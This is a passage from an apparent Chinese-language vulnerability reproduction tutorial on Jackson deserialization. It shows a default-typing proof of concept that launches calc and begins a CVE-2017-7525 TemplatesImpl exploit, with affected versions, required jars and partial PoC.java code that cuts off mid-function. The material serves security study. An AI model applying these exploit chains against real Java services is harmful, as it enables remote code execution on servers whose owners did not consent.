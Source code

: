 ```plain
package jackson;

import com.fasterxml.jackson.databind.ObjectMapper;

public class JSTest {
    public static void main(String[] args) throws Exception{
        ObjectMapper objectMapper = new ObjectMapper();
        objectMapper.enableDefaultTyping();
        String jsonstring = "{\"age\":6,\"name\":\"fakes0u1\",\"object\":[\"jackson.Evil\",{\"cmd\":\"calc\"}]}";

        Person2 p2 = objectMapper.readValue(jsonstring,Person2.class);
        System.out.println(p2);
    }
}
```

可以成功执行 calc

## CVE-2017-7525 TemplatesImpl 利用链

### 影响版本

Jackson 2.6 系列 < 2.6.7.1

Jackson 2.7 系列 < 2.7.9.1

Jackson 2.8 系列 < 2.8.8.1

JDK 使用 1.7 版本的

### 复现

jar 包：jackson-annotations-2.7.9，jackson-core-2.7.9，jackson-databind-2.7.9，commons-codec-1.12，commons-io-2.5，spring-core-4.3.13.RELEASE。

PoC.java

```plain
package jackson;

import com.fasterxml.jackson.databind.ObjectMapper;
import com.sun.org.apache.xerces.internal.impl.dv.util.Base64;
import org.springframework.util.FileCopyUtils;

import java.io.ByteArrayOutputStream;
import java.io.File;
import java.io.FileInputStream;
import java.io.IOException;

public class PoC {
    public static void main(String[] args)  {
        String exp = readClassStr("xxx\\Exploit.class");
        String jsonInput = "见下方图片";
        System.out.printf(jsonInput);
        ObjectMapper mapper = new ObjectMapper();
        mapper.enableDefaultTyping();
        fakes0u1 fakes0u1;
        try {
            fakes0u1 = mapper.readValue(jsonInput, fakes0u1.class);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    public static String aposToQuotes(String json){
```
